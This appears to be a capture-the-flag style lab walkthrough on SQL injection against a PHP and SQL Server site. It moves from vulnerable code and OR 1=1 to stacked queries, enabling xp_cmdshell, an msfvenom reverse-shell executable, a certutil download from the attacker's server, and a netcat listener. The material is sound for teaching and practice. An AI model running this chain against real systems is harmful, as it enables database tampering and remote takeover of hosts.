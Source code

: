 # SQL Injection

Taking in user-supplied input gives us powerful ways to create dynamic content, but failing to secure this input correctly can expose a critical vulnerability known as SQL injection (SQLi). SQL injection is an attack technique that exploits how web applications handle user input, particularly in SQL queries. Instead of providing legitimate input (like the ornament colour in the example above), the attacker injects malicious SQL statements into a web application's input fields or parameters. The application's database server then executes this rogue SQL query.

consider our previous PHP code for fetching user input to search for ornament colours:

```php
// Retrieve the GET parameter and save it as a variable
$colour = $_GET['colour'];

// Execute an SQL query with the user-supplied variable
$query = "SELECT * FROM tbl_ornaments WHERE colour = '$colour'";
$result = sqlsrv_query($conn, $query);
```

Without adequate security measures, an attacker could manipulate the "colour" parameter to execute malicious SQL queries. For instance, instead of searching for a benign colour, they might input `' OR 1=1 --` as the input parameter, which would transform the query into:

![44e582e3f4acbede1d1e86f189c23630.png](../../../_resources/44e582e3f4acbede1d1e86f189c23630.png)

## Caution Around OR 1=1

It's crucial to emphasise the potential risks of using the `OR 1=1` payload. While commonly used for illustration, injecting it without caution can lead to unintended havoc on a database. When injecting `OR 1=1` into a query, the intention is typically to bypass authentication or to return all items in a table by making the condition always true. However, the risks lie in that you might not be aware of the context and scope of the query you're injecting into. Additionally, applications may sometimes use values from an initial request in multiple SQL queries. SQL injection payloads that return all rows can lead to unintended consequences when injected into different types of statements, such as UPDATE or DELETE.

Imagine injecting it into a query that updates a specific user's information. An `OR 1=1` payload would make the condition true for every row, leading to a mass update affecting all records (users) in the table. This lack of specificity in the payload makes it a risky choice for penetration testers who might inadvertently cause significant data loss or alterations. A safer example would be a more targeted condition based on a known attribute identifying the record you want to manipulate. For instance, `bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This still demonstrates the SQL injection vulnerability without putting the entire table's records at risk.

## Stacked Queries

SQL injection attacks can come in various forms. A technique that often gives an attacker a lot of control is known as a "stacked query". Stacked queries enable attackers to terminate the original (intended) query and execute additional SQL statements in a single injection, potentially leading to more severe consequences such as data modification and calls to stored procedures or functions.

In SQL, the semicolon typically signifies one statement's conclusion and another's commencement. This feature facilitates the execution of multiple SQL statements within a single interaction with the database server. It's important to note that certain web application technologies and database management systems (DBMS) may demand different syntax or lack support for stacked queries. Consequently, enumeration is essential for precision when conducting injection attacks.

Suppose our attacker in the previous example wants to go beyond just retrieving all rows and intends to insert some malicious data into the database. They can modify the previous injection payload to this:

`' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --`  
When the web application processes this input, here's the resulting query the database would execute:

`SELECT * FROM tbl_ornaments WHERE colour = '' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --'`

## Test

To test the input fields, we can submit characters like single quotes (') and double quotes ("), as these are special characters that attackers use to manipulate SQL queries. We might be able to trigger error messages by introducing possible syntax errors in the query and prove that the input is unsanitised as it reaches the back end.

The error we receive is a huge breakthrough, as it gives us many details on the underlying database management system powering this website and confirms that the user input is unsanitised.

Error message enumeration is critical to SQL injection testing because it equips attackers with valuable information for crafting more precise and effective attack payloads. Because of this, it's always essential to monitor and sanitise error messages to prevent sensitive information from leaking.

## xp_cmdshell

xp_cmdshell is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. While it can be a powerful administrative tool, it can also be a security risk if not used cautiously when enabled.

Because of the known risks involved, it's recommended that this functionality is disabled on production servers (and is by default). However, due to misconfigurations and legacy applications that require it, it's common to see it enabled in the wild. For example, suppose you have an HR management system that needs to export data periodically to a CSV file and upload it to an external server. Instead of using more secure and modern methods like SQL Server Integration Services (SSIS) or custom application code, legacy applications may have opted to rely on xp_cmdshell to execute system-level commands to export the data. While this accomplishes the same task, it poses security and maintainability risks and grants excessive system access to the SQL Server.

It is also possible to manually enable xp_cmdshell in SQL Server through EXECUTE (EXEC) queries. Still, it requires the database user to be a member of the sysadmin fixed server role or have the ALTER SETTINGS server-level permission to execute this command. However, as mentioned previously, misconfigurations that allow this execution are not too uncommon.

We can attempt to enable xp_cmdshell on the Best Festival Company database by stacking the following commands using the SQL injection we discovered:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
By injecting the above statements into SQL Server, we'll first enable advanced configuration options in SQL Server by setting show advanced options to 1. We then apply the change to the running configuration via the RECONFIGURE statement. Next, we enable the xp_cmdshell procedure by setting xp_cmdshell to 1 and applying the change to the running configuration again.

Converting these into a single stacked SQLi payload will look like this:

`http://10.10.25.141/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`
By requesting the URL with these parameters, we should be able to execute the stacked queries and enable the xp_cmdshell procedure. With this feature enabled, we can execute any Windows shell command through the EXECUTE (or EXEC) statement followed by the command name.

Unfortunately, one of the caveats to this approach is that it returns its results as rows of text. This means that, typically, the output will never be returned to the user since the injection no longer occurs in the original, intended query. Because of this, we are often in the dark as to whether our injection worked. But there are ways to validate whether or not our approach is working.

## MSFvenom
MSFvenom is a command-line payload generation tool. It's part of the Metasploit Framework, a widely used penetration testing and ethical hacking set of utilities. MSFvenom is explicitly designed for payload generation and can be used to generate a Windows executable that, when executed, will make a reverse shell connection back to our AttackBox. We can run the following command on a Kali machine (or the AttackBox):

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe`

You can obtain your IP address by running `ifconfig ens5 | grep -oP 'inet \K[\d.]+'` in your terminal.

It will take a moment to generate, but once complete, you will have created a reverse.exe Windows executable file that will establish a reverse TCP connection to your IP address over port 4444 when executed on the target.

With our payload created, we can set up a quick HTTP server on our AttackBox using Python to serve the file:
`python3 -m http.server 8000`

By running the above command, we will set up a lightweight web server on port 8000 that we can use to serve our payload. All the files in our current directory, including reverse.exe, will be served using this method and will be accessible for the Best Festival server to download.

It's time to use our stacked query to call xp_cmdshell and execute the certutil.exe command on the target to download our payload.

`http://10.10.25.141/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --`

The above SQL statement will call certutil to download the reverse.exe file from our Python HTTP server and save it to the Windows temp directory for later use. After requesting the above URL to execute the stacked query, we should immediately know if we were successful by checking the output of our HTTP server. There should be a request for reverse.exe:
```
└─$ python3 -m http.server 8000  	 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.25.141 - - [10/Dec/2023 14:20:59] "GET /reverse.exe HTTP/1.1" 200 -
```
Great progress! We've achieved remote code execution and now have our reverse shell payload on the target system. All we have to do now is set up a listener to catch the shell and then have the system execute the payload executable. To set up our listener, we can use the netcat utility on the AttackBox to listen on port 4444 (the same port we specified in our payload). Netcat is a versatile networking utility that can be used for reading from and writing to network connections.
`nc -lnvp 4444`

Now, we can run one final stacked query to execute the reverse.exe file we previously saved in the C:\Windows\Temp directory:
`http://10.10.25.141/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`

After requesting the above URL, return to your netcat listener terminal window. You should see that we caught the shell and made the connection!